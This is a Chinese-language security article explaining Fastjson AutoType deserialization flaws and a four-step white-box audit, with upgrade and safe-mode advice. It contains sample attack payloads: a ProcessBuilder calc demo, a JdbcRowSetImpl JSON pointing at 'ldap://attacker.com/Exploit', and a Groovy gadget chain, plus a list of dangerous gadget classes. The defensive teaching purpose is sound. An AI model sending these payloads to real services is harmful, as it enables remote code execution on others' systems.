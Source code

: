 #  Fastjson漏洞：原理剖析与白盒审计实战  
原创 Eleven Liu  安全有术   2025-06-16 00:00  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/MSKf4G7kcviaqwfD0iaJmXLcgarGrAKtL3TDHhcLfE9cj6x0NedPZxV5C1TxZmDl7aAtOPXhGzdV60kT4baESTzg/640?wx_fmt=jpeg&from=appmsg "")  
  
在Java生态中，  
Fastjson  
以其卓越的性能成为  
json  
处理的明星库，然而其复杂的反序列化机制却暗藏致命风险。本文将回顾  
Fastjson  
漏洞的核心原理，并通过白盒审计揪出这些安全隐患。  
  
### 一、Fastjson使用的简单demo  
  
```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.annotation.JSONField;
import com.alibaba.fastjson.annotation.JSONType;
import com.alibaba.fastjson.serializer.SerializerFeature;
public class UserDemo {
    public static void main(String[] args) {
        Person person1 = new Person("张三", 18);
        String jsonString1 = JSON.toJSONString(person1, SerializerFeature.WriteClassName);
        System.out.println(jsonString1);
        String jsonString2 = "{\"UserAge\":20,\"UserName\":\"李四\",}";
        Person person2 = JSON.parseObject(jsonString2, Person.class);
        System.out.println(person2.getName() + " " + person2.getAge());
    }
    // 定义一个简单的 Java 类
    @JSONType(orders = {"UserName", "UserAge"})
    public static class Person {
        @JSONField(name="UserName")
        private String name;
        @JSONField(name ="UserAge")
        private int age;
        public Person(String name, int age) {
            this.name = name;
            this.age = age;
        }
        public String getName() {
            return name;
        }
        public int getAge() {
            return age;
        }
    }
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MSKf4G7kcvh79aWQIvtVKPFTUC4PwhUH3eqvwK1ds1fkYChaHs8ic2K4Hp8y1utaH5SQibvqicJ5Gj1KfJWn2WYtw/640?wx_fmt=png&from=appmsg "")  
  
  
在  
上面的dem  
o中我  
们定义了一个Person  
类，并设置了age  
以及name  
两个属性，并  
初始化了一个对象person1，然后通过  
 JSON.toJSONString去把对象转化为json  
字符串。定义了一个jsonString2字符串，通过JSON  
.  
parseObject  
把  
json  
字符串转换为Java  
对象。  
因为  
jsonString2 的字段名与Person类的属性名不相同，所在，在demo中  
使用了@JSONField注解来指定Java类的属性和JSON字段之间的映射关系。  
  
  
Fastjson  
反序列化漏洞都会提到@type注解，它是用于标识JSON字符串中的某个属性是一个Java对象的类型，当  
Fastjson  
从JSON字符串反序列化为Java对象时，如果JSON字符串中包含@type属性，fastjson会根据该属性的值来确定反序列化后的Java对象的类型。如下示例，通过  
@type弹出计算机窗口，  
由于fastjson在1.2.24之后默认禁用Autotype，因此这里我们通过ParserConfig.getGlobalInstance().addAccept("java.lang")来开启。  
```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import java.io.IOException;
import java.util.List;
public class TypeDemo {
    public static void main(String[] args) {
        String jsonString = "[{\"@type\":\"java.lang.ProcessBuilder\", \"command\":[\"calc\"]}]";
        ParserConfig.getGlobalInstance().addAccept("java.lang");
        List<ProcessBuilder> list = JSON.parseArray(jsonString, ProcessBuilder.class);
        // 触发执行
        try {
            list.get(0).start();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    }
```  
  
  
二、漏洞本质：AutoType的潘多拉魔盒  
  
**Fastjson漏洞根源**  
在于它  
的autoType  
特性，当反序列化过程中遇到@type  
字段时，  
Fastjson  
会尝试动态加载并实例化指定类。攻击者精心构造恶意  
json  
数据，诱导应用加载危险类，触发RCE、文件读取等攻击：  
```
{
  "@type": "com.sun.rowset.JdbcRowSetImpl",
  "dataSourceName": "ldap://attacker.com/Exploit",
  "autoCommit": true
}
```  
  
**三大核心漏洞链**  
：  
1. **JNDI注入（经典1.2.24漏洞）**  
  
1. **TemplatesImpl字节码注入**  
  
利用_bytecodes  
字段加载恶意字节码 → 通过getOutputProperties()  
触发执行  
关键条件：需开启Feature.SupportNonPublicField  
  
1. **新型Groovy漏洞链**  
  
```
{
  "@type": "org.codehaus.groovy.runtime.ConvertedClosure",
  "method": "execute",
  "delegate": {
    "@type": "org.codehaus.groovy.runtime.MethodClosure",
    "method": "start",
    "owner": "groovy.lang.Process"
  }
}
```  
### 三、白盒审计四步定位法  
#### 步骤1：识别反序列化入口  
  
全局搜索高风险方法：  
```
// 危险方法
JSON.parseObject(input);
JSON.parse(input, Feature.SupportAutoType);
```  
#### 步骤2：检查AutoType配置  
  
审计防御机制有效性：  
```
// 危险配置
ParserConfig.getGlobalInstance().setAutoTypeSupport(true); 
ParserConfig.getGlobalInstance().setSafeMode(false); 

// 安全配置（推荐）
ParserConfig.getGlobalInstance().setSafeMode(true); // 启用安全模式
```  
#### 步骤3：验证黑名单机制  
  
检查是否使用过时防御方案：  
```
// 易被绕过的旧方案（已失效）
ParserConfig.getGlobalInstance().addDeny("com.sun.");
```  
#### 步骤4：追踪敏感调用链  
  
重点关注危险类：  
```
com.sun.rowset.JdbcRowSetImpl
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
org.codehaus.groovy.runtime.ConvertedClosure 
```  
### 四、纵深防御方案  
1. **强制版本升级**  
  
```
<!-- 安全版本基线 -->
<dependency>
  <groupId>com.alibaba</groupId>
  <artifactId>fastjson</artifactId>
  <version>1.2.83</version> <!-- 或 ≥2.0.48 -->
</dependency>
```  
  
**2、启用终极防御——安全模式**  
```
// 完全禁用autoType（豁免少数基础类）
ParserConfig.getGlobalInstance().setSafeMode(true);
```  
  
**3、精准白名单控制**  
```
// 允许可信类反序列化
ParserConfig.getGlobalInstance().addAccept("com.company.safe.");
```  
  
### 五、安全基线与自检清单  
> **三条安全基线**  
：  
> 非必要不开启AutoType生产环境强制启用安全模式用户输入都是不可信的，必须严格过滤  
  
  
**自检清单**  
：  
- FastJSON版本 ≥1.2.83 或 ≥2.0.48  
  
- setSafeMode(true)  
全局启用  
  
- 代码中无Feature.SupportAutoType  
和SupportNonPublicField  
  
- 新增Groovy等组件依赖时重新评估风险  
  
- 关键服务部署RASP进行行为拦截  
  
